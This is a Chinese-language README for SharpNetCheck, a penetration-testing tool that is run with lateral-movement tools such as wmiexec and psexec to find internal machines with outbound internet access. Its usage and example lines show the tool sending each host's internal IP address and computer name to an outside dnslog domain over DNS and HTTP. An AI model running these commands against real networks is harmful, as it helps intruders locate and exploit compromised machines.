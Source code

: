 # SharpNetCheck
在渗透过程中，对可以出网的机器是十分渴望的。在收集大量弱口令的情况下，一个一个去测试能不能出网太麻烦了。所以就有了这个工具，可配合如wmiexec、psexec等横向工具进行批量检测，该工具可以在dnslog中回显内网ip地址和计算机名，可实现内网中的快速定位可出网机器。

```
> SharpNetCheck.exe

Author: Uknow
Github: https://github.com/uknowsec/SharpNetCheck

Usage: SharpNetCheck -dns -host ceye.io
       SharpNetCheck -http -host/ip ceye.io
       SharpNetCheck -all -host ceye.io
```


## Example


`SharpNetCheck -all -host xxx.ceye.io`

#### HTTP Requests

```
Method: Post
Data: host=DESKTOP-KUMLA9N&ip1=172.16.242.133
```

#### DNS Query Name
```
172.16.242.133-DESKTOP-KUMLA9N.xxx.ceye.io
```
